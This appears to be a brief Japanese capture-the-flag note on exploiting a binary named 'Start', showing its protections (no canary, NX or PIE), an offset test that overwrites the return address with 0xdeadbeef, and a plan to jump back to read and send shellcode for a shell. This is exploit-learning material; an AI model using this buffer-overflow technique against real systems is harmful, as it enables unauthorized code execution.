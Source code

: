 25回目でoverflow

24回だとさらに続けて入力可能

outputなし

```
$ file Start
Start: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1027ea7f426946811b9ba65a666db93a2b5bffac, stripped
```

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

```shell
$ python -c 'print "A" * 24 + "\xef\xbe\xad\xde\x00\x00\x00\x00"' > input.txt
```

```
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0xdeadbeef
```

readelf -S Start

```
[26] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
```

readしているだけなので、オーバーフローさせてからreadに遷移させて、それからシェルコードをsendしてシェルを起動させる
